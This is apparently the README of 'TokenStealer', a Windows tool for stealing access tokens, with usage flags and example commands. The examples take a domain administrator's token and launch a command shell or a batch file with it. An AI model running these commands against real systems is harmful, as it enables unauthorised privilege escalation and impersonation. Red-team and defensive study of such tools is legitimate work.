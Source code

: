 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: `<pid>` list/steal  token from specfic  process pid<br>
         -u: `<user>` list/steal token of user<br>
         -c: `<command>` command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: `<token level>` needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
         -s: `<SessionId>` list/steal token from specific Session ID
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 </b>-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available<be>




